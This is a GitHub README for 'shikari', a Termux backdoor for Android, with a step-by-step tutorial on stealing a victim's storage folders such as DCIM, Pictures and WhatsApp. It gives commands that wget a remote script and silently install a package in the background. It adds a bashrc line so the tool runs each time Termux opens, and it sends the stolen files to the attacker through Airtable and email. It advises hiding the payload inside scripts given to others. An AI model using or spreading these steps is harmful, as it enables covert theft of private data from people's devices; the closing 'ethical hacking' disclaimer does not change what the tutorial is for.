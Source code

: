 
<h1 align="center">
  <br>
  <a href="#"><img src="https://github.com/Bhai4You/bhai4you/raw/master/shikari.gif" alt=""></a>


## Features

✓ First time on internet 😎 , Give credit if you are going to copy my idea or code ;)</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
Paste below code in your github and save it "shikari.txt"</br>
modify your details under " " or ' '</br>
```
export api="keyamJ*********"
export base='appJ8Pj*****'
export table="hack"
export folder="ADM"
[[ "${#BASH_SOURCE[@]}" -gt "1" ]] && { return 0; }
```

Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music) </br></br>
Now you can change your target folder anytime by changing in your github shikari.txt.</br></br>
When you change it with "Documents" then you will get Documents ! if you change folder name to "Pictures" then you will get Pictures of victim 🌚</br></br>

### Step 5

+ Now add below command in your script.
Example.,

+ Change wget link with your shikari.txt.link
```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ pip install shikari
$ shikari
```

After Complete Process Don't forget to remove "shikari.txt" file
```
cd $HOME
rm -f shikari.txt
```

### Background Process
Add this code in your new "hack.sh" script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="pip install shikari && shikari";
_evalBg "${cmd}";
```
Add "bash hack.sh" in your shikari.txt script instead of pip install shikari...

```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ bash hack.sh
```

You can upload hack.sh on your GitHub and add on victim device by wget command then you can put "bash hack.sh" for background process.
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>

### Video Tutorial
[![Part : 1](https://raw.githubusercontent.com/Bhai4You/bhai4you/master/png_20220430_155107_0000.png)](https://www.youtube.com/watch?v=fQX3X8DiP3M)
[![Part : 2](https://raw.githubusercontent.com/Bhai4You/bhai4you/master/png_20220505_075952_0000.png)](https://youtu.be/ZXnpzzjZfsg)
### Error/Problems
Telegram : @realbhai4you

### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
